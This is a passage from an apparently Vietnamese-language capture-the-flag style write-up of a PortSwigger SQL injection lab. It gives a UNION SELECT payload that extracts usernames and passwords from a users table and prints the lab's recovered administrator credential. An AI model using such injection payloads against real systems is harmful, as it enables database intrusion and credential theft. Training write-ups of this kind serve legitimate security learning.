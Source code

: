 ![img](https://github.com/DucThinh47/PortSwigger/blob/main/SQL-injection/images/image218.png?raw=true)

=> Thông tin 3 cột được trả về: `EMAIL`, `PASSWORD_VFVHCO` và `USERNAME_DTQOVR`. Tiếp theo, chèn payload để xem giá trị của các cột này: `'+UNION+SELECT+USERNAME_DTQOVR,+PASSWORD_VFVHCO+FROM+USERS_OLGCBU--`:

![img](https://github.com/DucThinh47/PortSwigger/blob/main/SQL-injection/images/image219.png?raw=true)

=> Tìm ra thông tin đăng nhập của admin: `administrator:jw0crgfycdo7ndw1tptx`. Login và solve the lab:
